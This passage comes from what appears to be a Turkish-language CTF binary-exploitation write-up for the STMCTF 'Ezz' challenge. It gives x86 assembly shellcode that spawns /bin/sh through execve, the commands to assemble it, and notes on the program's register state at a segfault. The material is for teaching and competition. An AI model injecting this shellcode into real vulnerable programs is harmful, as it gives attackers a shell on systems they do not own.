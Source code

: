 ```asm
section .text
	global _start

_start:

	xor	eax,eax
	push	eax
	push 	0x68732f2f
	push	0x6e69622f
	mov 	ebx,esp
	mov	al,0xb
	int	0x80
```
```shell
nasm -f elf32 shell.asm -o shell.o
ld -melf_i386 shell.o -o shell
```

Şimdi bunlar cepte dursun seg fault olduğunda ki duruma bir göz atalım:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Ezz/screenshots/7.png)

Bu fotoğraftan çıkarılacak şey EAX içinde hiç dokunulmamış 128 bizim girdiğimiz karakter var. Programın içinde “/bin/sh” stringi bulamayız. Ama Linux’un güzel yanı ne kadar “/” slash olduğu önemli değil mesela “////////bin/////////sh” olsa bile çalışır:
